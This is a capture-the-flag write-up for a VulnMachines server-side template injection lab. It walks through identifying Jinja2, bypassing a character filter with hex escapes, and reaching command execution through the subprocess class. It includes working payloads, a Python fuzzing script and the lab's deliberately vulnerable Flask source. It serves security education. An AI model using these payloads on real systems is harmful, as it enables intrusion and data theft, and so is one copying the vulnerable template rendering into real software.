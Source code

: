 ### Server Side Template Injection

<h3> VulnMachines SSTI </h3>
  
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5ba69ce8-7c1d-4b12-acd4-ac938cc0a05a)

After going over to the web page it shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3f12114e-5007-40e8-872c-0852bc94afe7)

Trying to input something shows it get reflected back
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6b197aee-aeec-4a59-ae29-fdf22ae038e5)

Using basic SSTI payload works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0c3d4f0d-3339-4052-a5ff-80a80299048d)

Let's use this SSTI check to know what template engine it uses
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72ceb69f-0749-42af-a825-e578cbcceee7)

First i'll try `${7*7}` but it doesn't get evaluated
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fca6e016-516e-4d4e-99eb-f2f51a177d5a)

Next we move unto the down part of what we are using to get the template engine

Now i'll try this `{{7*7}}`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/40a994fe-f655-4155-b869-57472c9ee536)

It gets evaluated

So we move unto `{{7*'7'}}`

But doing that gives us an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/727b0876-0742-4285-b9aa-90f9ffa334b7)

```
Your nickname contains restricted characters!
```

To bypass this we can try using double quote instead of single quote

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1cd3936c-6e86-445b-ad6a-3162ba396fbd)

From here we can say the template engine is either *Jinja2 or Twig*

But from the web server header we can then conclude it's *Jinja2* templating engine that is being used since the webserver is built on python
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f1e4fd74-e41d-4cc8-8bff-b980e4cf0796)

The aim of this challenge is to get the flag 

Checking the {{config}} env works and shows the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4ad45aa4-090f-4af8-9756-dda57100a7d7)

```
Flag: 56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273
```

It is in it's hex form

I used python to decode it

```
#!/usr/bin/python3
# Author: Hack.You

encoded = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
decoded = bytes.fromhex(encoded)
flag = b'vnm{'+decoded+b'}'
print(f'Flag: {flag}')
```

Running it gives us the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e81b6b1e-30d0-4f84-a5f3-82486aa33f81)

But how about we try get RCE

First I need to know the classes that are present and preferably the subprocess class

Reason is because it's a python module that allows us to execute commands
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dbe5deff-2bf0-4f45-822f-f50bfc2397fe)

So here's the payload:

```
{{""|attr("__class__")|attr("__base__")|attr("__subclasses__")()}}
```

But giving that to the web server gives an error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/53ac6936-426d-43c6-81c8-6a9177046c78)

```
Your nickname contains restricted characters!
```

It seems like it filters another character 

To make it easier i'll intercept one of the post request and save it in a file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6410d653-91b7-4369-bd27-b95cea534ad1)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bc21fc54-736c-4da6-aa63-c70a73ff25ad)

Now i'll use ffuf to fuzz for allowed special characters
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/51b0b6af-5d24-475b-9c87-54d7361592ba)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1260f974-8e17-4d44-bcee-3b0d2a161e9c)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2e5bc423-bfad-4f9b-ac47-033ca5b6e72c)

Sorry about the way my ffuf is that's the new update 😥

But we can see the allowed characters :)

One way we can improvise in bypassing the filter is by converting the blacklisted character to hex
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2155b706-5ad1-4fa6-a80d-5ae9297da27a)

So now here's the updated payload:

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()}}
```

Using the updated payload works 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5e6054cd-da25-4b31-a12c-d1b2a2afd8fe)

Now we can check if the subprocess class is among it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b19d4d65-bc52-4985-a927-6eda3d9984f0)

Cool it's among the classes

So the final payload should be:

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(position_of_subprocess_number))("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

We need to get the position of the subprocess class number

Burp intruder can help with that :) i did try scripting this but unfortunately  i can't seem to make it send as raw data without it being converted to it's string form

```python
# Under dev
import requests

def main():

    url = 'http://hackme2.vulnmachines.com:8470/'

    for i in range(1000):
        
        data = {
            'nickname': '{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")({})("id",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}'.format(i)
        }
        
        reqStatusCode = requests.post(url, data=data).status_code

        if reqStatusCode == 200:
            print(f'[+] Subprocess position found at: {i}')


if __name__ == '__main__':
    main()
```

I'll just fuzz using Burp Intruder
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/04ec0628-1e92-44aa-99bd-a3c99e4f08bb)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dc6c8896-3442-4ce3-8d02-75a0f544a6c4)

After running it I got this 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/52b7ad19-eb4f-419e-ba69-ed57e89e5e1b)

We can see the request with a content length of `258`

Checking it shows that it indeed works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/083c3b19-7840-4ecb-a003-1496c2233df9)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/11c50698-5687-49b5-bb7f-b251fed673c5)

And the position for the subprocess class is `286`

We can then try reading the app.py file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3062bfcd-5b67-4dee-b0ae-ba63e7ef6667)

```
{{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f")()|attr("\x5f\x5fgetitem\x5f\x5f")(286)("cat+app\x2epy",shell=True,stdout=-1)|attr("communicate")()|attr("\x5f\x5fgetitem\x5f\x5f")(0)|attr("strip")()}}
```

Here's the result gotten from reading app.py (P.S: I exfiltrated it 🙂)

```
import random
from flask import Flask, render_template_string, render_template, request

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Follow us on Twitter rapidsafeguard'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

app.config['flag'] = '56756c6e6d616368696e6573202d20506c61636520666f722050656e746573657273'
#app.config['flag']="Success fully pass SSTI"
nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']
#nicknames=['psycho','rapidsafeguard']
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)

        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

We can also see the flag there 😅

And we're done 👻

